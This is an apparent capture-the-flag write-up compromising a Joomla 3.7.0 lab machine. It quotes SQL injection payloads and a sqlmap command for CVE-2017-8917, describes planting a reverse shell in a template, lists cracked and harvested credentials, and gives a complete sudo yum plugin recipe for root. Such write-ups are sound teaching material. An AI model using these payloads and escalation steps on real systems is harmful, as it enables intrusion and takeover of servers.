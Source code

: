 ```yaml
---
sticker: emoji//1f577-fe0f
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | STATE | SERVICE |
| :--- | :---- | :------ |
| 22   | open  | ssh     |
| 80   | open  | http    |
| 3306 | open  | mysql   |

We got 3 open ports, let's take a look at the website:

![[Pasted image 20241121165122.png]]

Seems like a simple website, let's try to fuzz in order to find anything, if not, I think that login part is interesting and we could go back to check any vulnerability in it

## FUZZING
---

![[Pasted image 20241121165255.png]]

We found a lot of directories, let's take a look at `/administrator`

![[Pasted image 20241121170507.png]]

Got a login page for admin in this, if we look around the page source, we are able to identify this is `Joomla 3.7.0`


# RECONNAISSANCE
---

![[Pasted image 20241121170613.png]]
Searching up for an exploit related to this version, we find this, a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQL Injection]] vulnerability, let's take a look at the exploit itself:


```
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
    
```

We can either use sqlmap or an exploit developed in python, I used the exploit as it is way more easier to retrieve the data:

```ad-hint

#### Exploit 

[exploit](https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
)

##### Output
---

![[Pasted image 20241121171916.png]]

We got the user `jonah` and a password in a hash formato, let's crack that hash using `john`

hash: `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`


#### John
----

![[Pasted image 20241121174205.png]]

got password `spiderman123`


```

![[Pasted image 20241121175307.png]]

We are inside the panel, let's begin with exploitation to get our reverse shell

# EXPLOITATION
---


Once we are inside the panel, if we go to templates, we see the following:



![[Pasted image 20241121175454.png]]

If we dig up further, we notice we are able to modify the `index.php` in order to put a reverse shell:



![[Pasted image 20241121175549.png]]

Put the reverse shell, set up listener, refresh the page and get the shell:

![[Pasted image 20241121180244.png]]

Once we got our shell, let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize]] it and try to get anything useful:

![[Pasted image 20241121180409.png]]

We have now an stable shell, let's take a look at how many users are in this machine:


![[Pasted image 20241121180459.png]]

Two users, `jjameson` and `root`, we need some sort of way to get jameson's password to switch into that user, if we take a look at previous pictures, we have a `configuration.php` file, let's `cat` on it:


![[Pasted image 20241121180633.png]]

Nice, we found the password, let's switch users:


```ad-note

#### Credentials
---

`jjameson` : `nv5uz9r3ZEDzVjNu` 
```

![[Pasted image 20241121180958.png]]

Nice, we were able to switch users. Let's proceed with privilege escalation


# PRIVILEGE ESCALATION
---


## SUDO -L


If we use `sudo -l` on `jjameson`, we get the following:


![[Pasted image 20241121181128.png]]

We are able to run sudo in `/usr/bin/yum`, if we check what [GTFOBINS](https://gtfobins.github.io/) have for us, we get this:

![[Pasted image 20241121181231.png]]

So, in order to get a root shell, we need to do the following:

```ad-summary

1. `TF=$(mktemp -d)`
2. `cat >$TF/x<<EOF`
3. `[main]`
4. `plugins=1`
5. `pluginpath=$TF`
6. `pluginconfpath=$TF`
7. `EOF`
8. `cat >$TF/y.conf<<EOF`
9. `[main]`
10. `enabled=1`
11. `EOF`
12. `cat >$TF/y.py<<EOF`
13. `import os`
14. `import yum`
15. `from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE`
16. `requires_api_version='2.1'`
17. `def init_hook(conduit):`
18. `  os.execl('/bin/sh','/bin/sh')`
19. `EOF`
20. `sudo yum -c $TF/x --enableplugin=y`

#### PoC
---

![[Pasted image 20241121181849.png]]

Got a shell as root and like that, CTF is over.

```


